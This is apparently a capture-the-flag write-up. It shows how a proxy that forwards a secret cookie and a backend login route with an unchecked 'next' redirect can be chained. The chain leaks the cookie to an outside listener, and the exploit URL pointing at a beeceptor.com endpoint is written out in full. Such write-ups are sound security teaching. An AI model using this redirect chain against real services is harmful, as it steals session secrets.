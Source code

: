 Note the code here in proxy

```python
uri = request.args.get("uri", "/")
full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)

r = requests.get(full_url, cookies={
    "secret": secret
})
```

versus the code here in the backend

```python
@app.route("/login")
def login():
    next_uri = request.args.get("next", "/")

    if request.cookies.get("secret") == secret:
        return redirect(next_uri)

    if request.args.get("secret") == secret:
        resp = make_response(redirect(next_uri))
        resp.set_cookie("secret", secret)

        return resp
    else:
        return ":("
```

Basically while the proxy's `/get` api cleans the uri passed to it with

```python
full_url = urllib.parse.urljoin(os.environ["BACKEND_URL"], uri)
```

the backend's `/login` does not

```python
next_uri = request.args.get("next", "/")
```

Thus we can do a bunch of redirects into our listening http server with the request

```
http://chals.ctf.sg:40101/get?uri=/login?next=/login?next=https://asdfasdfasdf.free.beeceptor.com
```

This uri does

1. redirect proxy to backend's `/login`
2. cause backend to make a request to `https://asdfasdfasdf.free.beeceptor.com` with the cookies appended to its request headers and steal the cookie from there
